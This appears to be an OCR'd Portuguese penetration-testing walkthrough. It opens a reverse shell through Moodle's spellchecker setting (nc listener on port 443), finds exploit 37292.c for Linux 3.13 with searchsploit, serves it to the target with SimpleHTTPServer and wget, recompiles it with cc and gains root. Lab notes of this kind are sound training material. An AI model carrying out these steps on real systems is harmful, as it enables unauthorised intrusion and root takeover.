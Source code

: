 				editar ip e porta

				nc -lnvp 443

				*moodle
				Home -> My profile -> Blogs -> Add a new entry
					escrever qualquer coisakasdasfosjdjoas
					clicar em Toggle spellchecker -> opção inferior dirito do menu de opções “ABC” para chamar o spell

			uname -a
						
		kali-> searchsploit linux 3.13
			/usr/share/exploitdb/exploits/linux/local/37292.c

			compilar o arquivo -> gcc -o data 37292.c (compilou 37292.c pra data)

				transferir para a maquina alvo
					python -m SimpleHTTPServer 8080
					m_alvo -> wget ip_kali:8080/37292.c

					chmod +x data -> pra execução
					./data  -> vai dar erro pois n tem o gcc  pra compilar, porém em /usr/bin existe o cc que também serve pra compilar
																			
			editar o 37292.c pois esta referenciando a lib do gcc
				vim datanovo -> linha 143 , tirar o gcc e por cc											

				mandar pro alvo
					compilar -> cc -o datanovo 37292.c
						executar -> ./datanovo
						root :)
		
		
		

